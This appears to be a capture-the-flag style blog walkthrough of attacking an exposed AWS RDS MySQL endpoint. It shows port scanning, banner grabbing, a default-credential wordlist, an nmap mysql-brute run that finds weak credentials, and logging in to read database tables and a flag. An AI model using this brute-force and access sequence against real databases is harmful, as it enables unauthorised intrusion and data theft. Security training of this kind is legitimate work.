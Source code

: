 ```yaml
---
layout: post
title:  "Pillage Exposed RDS Instances"
date:   2024-06-27 21:39:54 +0530
categories: AWS
---
```


# Initial Entry

The scenario here is in the backdrop of rising cybersecurity threats, with chatter on Telegram channels hinting at data dumps and Pastebin snippets exposing snippets of configurations, Huge Logistics is taking no chances. They’ve enlisted your team’s expertise to rigorously assess their cloud infrastructure. Armed with a list of IP addresses and endpoints, a lead emerged — an RDS endpoint: `exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com`. Your mission? Dive deep into this endpoint’s security, and identify any security issues before threat actors do.

  

## Understand what is RDS

Amazon RDS is defined as a Relation database services in more of distributed way.. Kind of service offering from AWS to simply the setup, operational changes and scaling of application and one thing to remember is Amazon RDS supports PostgreSQL, MySQL, Maria DB, Oracle, SQL Server, and Amazon Aurora

  

## Approaching for a solution 

With the following RDS instance URL: [exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com](https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com "https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com") we will do a simple nmap scan on top 1000 ports and as a result, we can see that port 3306 is open and runs a mysql server 

  

```bash
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh$ nmap -sV -Pn --top 1000 -vvv exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-16 21:00 PST
NSE: Loaded 45 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 21:00
Completed Parallel DNS resolution of 1 host. at 21:00, 0.29s elapsed
DNS resolution of 1 IPs took 0.29s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:00
Scanning exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68) [1000 ports]
Discovered open port 3306/tcp on 16.171.94.68
Completed Connect Scan at 21:01, 42.93s elapsed (1000 total ports)
Initiating Service scan at 21:01
Scanning 1 service on exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Completed Service scan at 21:01, 25.40s elapsed (1 service on 1 host)
NSE: Script scanning 16.171.94.68.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:01
Completed NSE at 21:01, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:01
Completed NSE at 21:01, 0.35s elapsed
Nmap scan report for exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Host is up, received user-set (0.17s latency).
rDNS record for 16.171.94.68: ec2-16-171-94-68.eu-north-1.compute.amazonaws.com
Scanned at 2024-02-16 21:00:26 PST for 69s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT     STATE SERVICE REASON  VERSION
3306/tcp open  mysql?  syn-ack
```

Look into banner grabbing through netcat, we found that `mysql_native_password`  is supported and what that means is it is authentication mechanism used in mysql when you enter the password it get converted into some kind of kind hash using a method called password native hashing and later when the user enters the password again it is converted into hash format and compared with the stored hash.. If it is validated and verified, user will get loggedin 

  

```bash
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh$ nc exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com 3306
J
8.0.32��
       QD]R<�����bAd;F1B*mysql_native_password2
```

  

We can also do the username and password manually but it is time consuming and so, we are automating it using nmap’s mysql-brute script for that we need to do a similiar setups like firstly need a wordlist and for that we are utilizing seclists and setup the delimiter between of the wordlist because it is in the format of `root:root`  where the nmap script supports if it is in a particular format `root/root` 

  

```bash
r4y@DESKTOP-3KBF4H7:/tmp$  wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -O mysql-creds.txt
--2024-02-16 21:30:46--  https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 343 [text/plain]
Saving to: ‘mysql-creds.txt’

mysql-creds.txt               100%[=================================================>]     343  --.-KB/s    in 0s

2024-02-16 21:30:46 (51.9 MB/s) - ‘mysql-creds.txt’ saved [343/343]

r4y@DESKTOP-3KBF4H7:/tmp$ sed -i 's/:/\//g' mysql-creds.txt
r4y@DESKTOP-3KBF4H7:/tmp$ cat mysql-creds.txt
root/mysql
root/root
root/chippc
admin/admin
root/
root/nagiosxi
root/usbw
cloudera/cloudera
root/cloudera
root/moves
moves/moves
root/testpw
root/p@ck3tf3nc3
mcUser/medocheck123
root/mktt
root/123
dbuser/123
asteriskuser/amp109
asteriskuser/eLaStIx.asteriskuser.2oo7
root/raspberry
root/openauditrootuserpassword
root/vagrant
root/123qweASD#
```

  

With the nmap, we can bruteforce with the `mysql-brute`  script and additonally you can pass the wordlist which we have edited through `brute.credfile` params.. After nmap scan is completed, we found ou valid credentials for the database which is `dbuser:123`⁠

  

```bash
r4y@DESKTOP-3KBF4H7:/tmp$ nmap -Pn -p3306 --script=mysql-brute --script-args brute.delay=10,brute.mode=creds,brute.credfile=mysql-creds.txt exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-16 21:35 PST
Nmap scan report for exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Host is up (0.16s latency).
rDNS record for 16.171.94.68: ec2-16-171-94-68.eu-north-1.compute.amazonaws.com

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-brute:
|   Accounts:
|     dbuser:123 - Valid credentials
|_  Statistics: Performed 23 guesses in 33 seconds, average tps: 0.8

Nmap done: 1 IP address (1 host up) scanned in 33.24 seconds
```

  

In mysql commandline on to your host machine and with the following we can able to connect to the host [`exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com`](https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com "https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com") with the username as `dbuser` and our password will be `123`⁠

  

```bash
r4y@DESKTOP-3KBF4H7:/tmp$ mysql -h exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com -u dbuser -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 311539
Server version: 8.0.32 Source distribution

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

  

Let’s check the permissions or grants of `dbuser`  with the following query `SHOW GRANTS FROM “dbuser”;`  where it will show what it has access to and we have access `user_info` database and in the you can enumerate users table or flag as well

  

```bash
mysql> SHOW GRANTS FOR "dbuser"
    -> ;
+-----------------------------------------------------+
| Grants for dbuser@%                                 |
+-----------------------------------------------------+
| GRANT USAGE ON *.* TO `dbuser`@`%`                  |
| GRANT SELECT ON `user_info`.`flag` TO `dbuser`@`%`  |
| GRANT SELECT ON `user_info`.`users` TO `dbuser`@`%` |
+-----------------------------------------------------+
3 rows in set (0.18 sec)
```

  

Let’s change the database by entering query which is `use user_info;`  and once the database is changed, try disclosing the table susing `show tables`⁠

  

```bash
mysql> use user_info;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_user_info |
+---------------------+
| flag                |
| users               |
+---------------------+
2 rows in set (0.18 sec)
```

  

We got our flag with the following query `SELECT * FROM flag` 

```bash
mysql> select * from flag
    -> ;
+----------------------------------+
| flag                             |
+----------------------------------+
| e1c342d58b6933b3e0b5078174fd5a62 |
+----------------------------------+
1 row in set (0.17 sec)
```
